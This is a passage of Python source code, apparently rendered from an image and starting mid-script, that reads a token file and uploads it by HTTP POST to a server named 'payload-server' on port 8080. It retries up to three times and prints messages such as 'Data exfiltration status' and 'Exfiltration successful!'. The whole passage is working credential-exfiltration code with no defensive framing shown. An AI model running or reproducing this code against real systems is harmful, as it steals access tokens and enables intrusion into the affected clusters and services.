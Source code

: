 ```bash
        print("Token content preview: {}...".format(token_content[:100]))

# Try multiple times to ensure delivery
for attempt in range(3):
    try:
        # Use payload server
        server = "payload-server.default.svc.cluster.local"
        try:
            ip = socket.gethostbyname(server)
            print("Resolved {} to {}".format(server, ip))
        except Exception as dns_err:
            print("Could not resolve {}: {}".format(server, dns_err))
            server = "localhost"
            
        print("Sending data to http://{}:8080/ (attempt {})".format(server, attempt+1))
        
        # Check if server is reachable first
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(3)
            result = sock.connect_ex((server, 8080))
            if result == 0:
                print("Server {}:8080 is reachable".format(server))
            else:
                print("Server {}:8080 is NOT reachable (error code: {})".format(server, result))
                if attempt < 2:
                    print("Waiting 2 seconds before retry...")
                    time.sleep(2)
                    continue
            sock.close()
        except Exception as sock_err:
            print("Socket error checking server: {}".format(str(sock_err)))
        
        # Try to send the data
        if os.path.exists(tokenfile):
            with open(tokenfile, "rb") as f:
                response = requests.post(
                    "http://{}:8080/".format(server), 
                    files={"file": (os.path.basename(tokenfile), f, "text/plain")}
                )
            print("Data exfiltration status: {}".format(response.status_code))
            response_text = response.text[:100] if hasattr(response, "text") else "No response text"
            print("Response body: {}".format(response_text))
            if response.status_code == 200:
                print("Exfiltration successful!")
                break
        else:
            print("Cannot read token file: {}".format(tokenfile))
            response = requests.post("http://{}:8080/".format(server), 
                               data={"message": "Token file not found"})
            print("Error notification status: {}".format(response.status_code))
        
        if attempt < 2:
            print("Waiting 2 seconds before retry...")
            time.sleep(2)
            
    except Exception as e:
        print("Error during exfiltration: {}".format(str(e)))
        if attempt < 2:
            print("Waiting 2 seconds before retry...")
            time.sleep(2)
'
```